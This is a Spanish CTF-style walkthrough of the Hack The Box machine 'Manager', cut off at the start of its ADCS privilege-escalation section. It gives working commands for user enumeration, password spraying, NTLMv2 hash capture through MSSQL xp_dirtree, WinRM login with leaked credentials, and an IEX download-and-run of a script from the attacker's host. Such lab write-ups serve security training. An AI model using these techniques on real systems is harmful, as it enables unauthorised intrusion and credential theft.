# Manager

`Manager` es una máquina Windows de dificultad media que aloja un entorno de Active Directory con `AD CS (Active Directory Certificate Services)`, un servidor web y un servidor `SQL`. El punto de apoyo implica enumerar usuarios mediante ciclos RID y realizar un ataque de rociado de contraseñas para obtener acceso al servicio `MSSQL`. Luego se utiliza el procedimiento `xp_dirtree` para explorar el sistema de archivos y descubrir una copia de seguridad del sitio web en la raíz web. Al extraer la copia de seguridad, se revelan las credenciales que se reutilizan para WinRM en el servidor. Finalmente, el atacante aumenta los privilegios a través de `AD CS` mediante la explotación de `ESC7`.

<figure><figcaption></figcaption></figure>

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina Manager.

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -Pn -n 10.10.11.236 -oG allPorts
```

<figure><figcaption></figcaption></figure>

Comprobaremos el nombre del dominio con el cual nos enfrentamos a través del siguiente comando.

Verificaremos también a qué tipo de máquina nos enfrentamos a través de **netexec**.

```bash
ldapsearch -x -H ldap://10.10.11.236 -s base | grep defaultNamingContext

netexec smb 10.10.11.236
```

<figure><figcaption></figcaption></figure>

## Website Enumeration

Procederemos a enumerar el sitio web que se encuentra alojado en puerto 80 (HTTP). Primero de todo, probaremos con la herramienta de **whatweb** de revisar qué tecnologías se utilizan en el sitio web.

```bash
whatweb http://manager.htb
```

<figure><figcaption></figcaption></figure>

Accederemos a [http://manager.htb](http://manager.htb) y con **Wappalyzer** comprobaremos también las tecnologías del sitio web.

<figure><figcaption></figcaption></figure>

A través de la herramienta de **gobuster**, enumeraremos posibles directorios que se encuentren disponibles en el sitio web.


```bash
gobuster dir -u http://manager.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


<figure><figcaption></figcaption></figure>

Comprobromamos el acceso a uno de ellos y nos aparece error 403 Forbidden. De momento descartamos seguir por aqui, no hemos encontrado nada interesante en el sitio web.

<figure><figcaption></figcaption></figure>

## Users Enumeration

### NSrpcenum (RPC) - \[FAILED]

A través de la herramienta **NSrpcenum** probaremos de enumerar los usuarios del dominio, ya que no disponemos de credenciales válidas. Nos indica que al parecer no podemos acceder por tema de permisos.

```bash
NSrpcenum -e DUsers -i 10.10.11.236
```

<figure><figcaption></figcaption></figure>

### Performing a RID Brute Force Attack using Netexec

Procederemos a realizar con **netexec** sobre el SMB un ataque de **RID Brute Force Attack**.

Un ataque de fuerza bruta RID consiste en probar diferentes valores de RID (Relative Identifier) para identificar usuarios en un sistema Windows, utilizando el hecho de que los RIDs suelen ser consecutivos a partir de un valor conocido, como el administrador (500) o el invitado (501).

```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute
```

<figure><figcaption></figcaption></figure>

Del resultado anterior, extraeremos los campos que nos interesa, los nombres de los usuarios y nos lo guardaremos en "users.txt".


```bash
netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//'

netexec smb 10.10.11.236 -u 'Guest' -p '' --rid-brute | grep SidTypeUser | awk '{print $6}' | sed 's/MANAGER\\//' > users.txt

catnp users.txt
```


<figure><figcaption></figcaption></figure>

### Enumerating domain users with Kerbrute

Otra de las maneras para ir enumerando usuarios del dominio válidos a través de un diccionario es empleando la herramienta de **Kerbrute**.


```bash
kerbrute userenum --dc 10.10.11.236 -d manager.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
```


<figure><figcaption></figcaption></figure>

### AS-REP Roast Attack (GetNPUsers) - \[FAILED]

Debido que disponemos de una potencial lista de usuarios válidos del dominio, podemos plantearnos en efectuar un **AS-REP Roast Attack** para solicitar un Ticket Granting Ticket (TGT). En este caso ningún usuario disponía de la configuración de (DONT\_REQ\_PREAUTH) de Kerberos

```bash
impacket-GetNPUsers -no-pass -usersfile users.txt manager.htb/ 2>/dev/null
```

<figure><figcaption></figcaption></figure>

### Credentials Brute Force (Netexec)

Probaremos de realizar ataque de fuerza bruta con **netexec** para probar si los usuarios disponen de contraseña su mismo nombre de usuario en minúsculas.


```bash
echo -e "Administrator\nGuest\nkrbtgt\nDC01$\nZhong\nCheng\nRyan\nRaven\nJinWoo\nChinHae\nOperator" | tr '[:upper:]' '[:lower:]' > usersLowerCase.txt

catnp usersLowerCase.txt
```


<figure><figcaption></figcaption></figure>

Realizaremos con **netexec** y el parámetro (--no-bruteforce) y encontramos el usuario "operator" que su contrraseña es la misma del nombre del usuario.

```bash
netexec smb 10.10.11.236 -u users.txt -p usersLowerCase.txt  --no-bruteforce
```

<figure><figcaption></figcaption></figure>

Validaremos nuevamente las credenciales son válidas correctamente y si podemos autenticarnos mediante WinRM.

Verificamos que las credenciales si son válidas pero no tenemos permisos de conectarnos vía WinRM.

```bash
netexec smb 10.10.11.236 -u 'operator' -p 'operator'

netexec winrm 10.10.11.236 -u 'operator' -p 'operator'
```

<figure><figcaption></figcaption></figure>

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Ya que disponemos de unas credenciales válidas, podemos intentar realizar un **Kerberoasting Attack** para intentar solicitar un Ticket Granting Service (TGS).

<figure><figcaption></figcaption></figure>

## LDAP Enumeration

### Domain enumeration with ldapdomaindump

Probaremos de realizar una enumeración con la herramienta de **ldapdomaindump.**

```bash
ldapdomaindump -u 'manager.htb\operator' -p 'operator' 10.10.11.236 -o ldap
```

<figure><figcaption></figcaption></figure>

Comprobaremos qué usuarios forman parte del grupo "Remote Management Users", esto es interesante debido que actualmente tenemos credenciales pero aún no tenemos acceso a la máquina como tal, por lo tanto, nos interesa conectarnos con algún usuario a la máquina remota y así luego escalar privilegios como usuario Administrator.

<figure><figcaption></figcaption></figure>

### Enumerating the domain using rpcenum

Ya que tenemos credenciales válidas, probaremos de utilizar la herramienta de **rpcenum** para listar posible información de usuarios, grupos, etc.

```bash
rpcenum -e All -i 10.10.11.236 -u 'operator' -p 'operator'
```

<figure><figcaption></figcaption></figure>

## MSSQL Enumeration (myssqlclient.py)

Ya que hemos visto que el puerto de MSSQL se encuentra expuesto, procederemos a autenticarnos con las credenciales del usuario "operator" para probar si podemos a ganar acceso. El primer comando no nos sirvió, pero podemos utilizar el parámetro (-windows-auth) y ver si con este parámetro ganamos acceso. Comprobamos que efectivamente hemos ganado acceso al servicio MSSQL.

```bash
mssqlclient.py manager.htb/operator:operator@10.10.11.236 2>/dev/null

mssqlclient.py manager.htb/operator:operator@10.10.11.236 -windows-auth 2>/dev/null
```

<figure><figcaption></figcaption></figure>

Probaremos de habilitar el componente **xp\_cmdshell** pero no podemos activarlo por falta de permisos.

```sql
SP_CONFIGURE "show advanced options", 1
```

<figure><figcaption></figcaption></figure>

### Abusing MSSQL (xp\_dirtree)

El compontente **xp\_dirtree** si lo tenemos habilitado, probaremos de comprobar si podemos interceptar un hash NTLMv2.

Para ello, des de nuestra Kali nos levantaremos un servidor SMB y des de la terminal de MSSQL procederemos a ejecutar el comando de **xp\_dirtree** en el servidor SMB que hemos montado, por parte de nuestra Kali, hemos recibido el hash NTLMv2.

```bash
smbserver.py smbFolder $(pwd) -smb2support

xp_dirtree '\\10.10.14.14\smbFolder\'
```

<figure><figcaption></figcaption></figure>

Con la herramienta de **hashid** comprobaremos qué tipo de hash tenemos, en este caso, un hash NTLMv2.

Y con **hashcat** procederemos a crackear el hash para obtener la contraseña.


```bash
hashid 'DC01$::MANAGER:aaaaaaaaaaaaaaaa:bc5c4de94dfa738a4028aac1cfc9a3a0:010100000000000080fcf97d4c32db01e7399019cb091b6500000000010010006b0075005600700070007400420065000200100058004f00750056004a00460069004d00030010006b0075005600700070007400420065000400100058004f00750056004a00460069004d000700080080fcf97d4c32db010600040002000000080030003000000000000000000000000030000089d02c51f9b86a7cbcf62b25d97bf9b25eb4e27657ca403a692ae8e78446c5440a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310034000000000000000000'

hashcat -a 0 hashes /usr/share/wordlists/rockyou.txt
```


<figure><figcaption></figcaption></figure>

Comprobamos que no hemos obtenidor resultado para crackear la contraseña.

<figure><figcaption></figcaption></figure>

Volviendo a la terminal de MSSQL, volvermeos a aprovecharnos del componente **xp\_dirtree** para listar archivos y directorios del sistema.

Comprobamos que dentro de la ruta (C:\inetpub\wwwroot\\) hay un comprimido .zip de lo que parece ser el backup del sitio web, que si bien recordamos, el sitio web es el que enumeramos al principio, ya que vimos que estaba montado con IIS, y la ruta por defecto que utiliza este servidor web es la indicada.

Como este archivo se encuentra en la raíz directamente de donde están alojadas las páginas web, lo que haremos es lo siguiente.

<figure><figcaption></figcaption></figure>

## Initial access

Nos lo descargaremos directamente des de la misma URL con **wget**.

```bash
wget http://manager.htb/website-backup-27-03-23-old.zip

ls -l | grep website
```

<figure><figcaption></figcaption></figure>

Procederemos a descromprimir el comprimido .zip

<figure><figcaption></figcaption></figure>

### Information Leakage

Revisando los archivos que disponemos, nos encontramos un archivo oculto nombrado ".old-conf.xml". Verificando el contenido del archivo, nos encontramos unas supuestas credenciales para el usuario "raven@manager.htb" que si mal no recordamos, este usuario formaba parte del grupo de "Remote Management Users", por lo tanto si estas credenciales son válidas, podríamos llegar a acceder al equipo a través de **evil-winrm** aprovechándonos que WinRM se encuentra expuesto.&#x20;

```bash
ls -la

catnp .old-conf.xml
```

<figure><figcaption></figcaption></figure>

### ShellOver Evil-WinRM

A través de **netexec** validaremos que con estas credenciales podemos acceder al WinRM, comprobamos que sí ya que nos aparece.

```bash
netexec winrm 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'

evil-winrm 10.10.11.236 -u 'raven' -p 'R4v3nBe5tD3veloP3r!123'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

### DC Enumeration (adPEAS) - Powershell tool to automate Active Directory enumeration

Procederemos de realizar una enumeración del AD a travñes de la herramienta **adPEAS.ps1** que es un script de Powershell (parecido a winPEAS) pero en vez de buscar malas configuraciones de Windows, hace exactamente lo mismo pero en el entorno del AD.

Nos lo descargaremos en nuestra Kali, levantaremos un servidor web con Pyton y a través de IEX en el equipo Windows, lo importaremos en memoria.

```powershell
wget https://raw.githubusercontent.com/61106960/adPEAS/refs/heads/main/adPEAS.ps1

python3 -m http.server 80

IEX (New-Object Net.WebClient).DownloadString("http:/10.10.14.14/adPEAS.ps1")

Invoke-adPEAS
```

<figure><figcaption></figcaption></figure>

Dentro del resultado del análisis nos encuentra información sobre _Active Directory Certificate Services_ en el cual nos reporta de posiblemente sea vulnerable, y nos indica que revisemos [https://posts.specterops.io/certified-pre-owned-d95910965cd2](https://posts.specterops.io/certified-pre-owned-d95910965cd2)

<figure><figcaption></figcaption></figure>

### Abusing Active Directory Certificate Services (ADCS)

ADCS es el rol que maneja la emisión de certificados para usuarios, equipos y servicios en la red de Active Directory. Este servicio, si está mal configurado, puede presentar vulnerabilidades que los atacantes podrían explotar para elevar privilegios o acceder a información sensible.

Algunas de las posibles vulnerabilidades que puede tener ADCS son:

